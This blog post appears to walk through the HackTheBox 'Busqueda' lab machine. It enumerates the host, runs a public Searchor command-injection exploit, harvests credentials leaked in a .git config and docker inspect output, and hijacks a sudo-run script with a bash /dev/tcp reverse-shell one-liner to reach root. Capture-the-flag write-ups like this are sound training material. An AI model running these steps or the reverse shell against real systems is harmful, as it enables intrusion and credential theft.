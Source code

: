 
---
title: "Busqueda"
summary: "Busqueda Machine From HackTheBox"
categories: ["Post","Blog",]
tags: ["post","linux ","hackthebox"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2021-09-04

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Linux        |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.11.208 |
- - -
## Enumeration

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the web on port 80 redirects to **searcher.htb**. Let's add it to `/etc/hosts`.

As soon as we land on the page, we see the following:
![Busqueda1](img/busqueda/busqueda1.png)

A quick look shows the version of the App that is running behind this website, which is **Searchor 2.4.0**. If we look for vulnerabilities, we find the following [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Exploitation
Let's run the exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

We put a `netcat` listener to receive the connection:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646         
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

We succesfully enter the machine as user **svc** .
```bash
svc@busqueda:~$ cat user.txt
cat user.txt
75a17...8bd3e
```
- - -
## Privilege Escalation
Looking though the system files, we find a `.git` with credentials in the **app** folder.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
	repositoryformatversion = 0
	...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The user is **cody** and the password is **jh1usoih2bkjaspwe92** for an application in a subdomain called **gitea**. Let's add it to the `/etc/hosts` and take a look.

![Busqueda2](img/busqueda/busqueda2.png)

Inside here, we don't find anything interesing, appart that we can see a user called **administrator**. Although, we can try to SSH with the **svc** user and **cody's** password:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208                   
svc@10.10.11.208's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  ...

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

Let's check the sudo privileges that this user has:

```bash
svc@busqueda:/opt/scripts$ sudo -l

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This user has the right to execute that script inside **/opr/scripts**.

If we run it, we can see the following options:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

After some investigation, we discover the `docker-inspect` option can be use to retrieve information from the docker containers that are running in the machine, before seen with the  `docker-ps` option.


```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

It looks like we find more credentials for the **gitea** application. Let's try to log in as **administrator**
with these credentials.

![Busqueda3](img/busqueda/busqueda3.png)

Nice! Now we can check the content of the **scripts** in the **/opt** folder.

Reading the script `system-checkup.py` script we notice that the `full-checkup.sh` script is referenced as if it was in the same folder:

```
...
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
...
```

We can abuse this by creating our own malicious script and reference it, as we are executing it with sudo privileges:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh 

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Keep in mind that you need to grant execution privileges to the script to run, as this was a mistake of mine that took me quite a lot of time to figure out.

Now, we set a `netcat` listener and execute the malicious script:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

In the `netcat` we receive the root shell:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

Nice! We rooted the machine.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```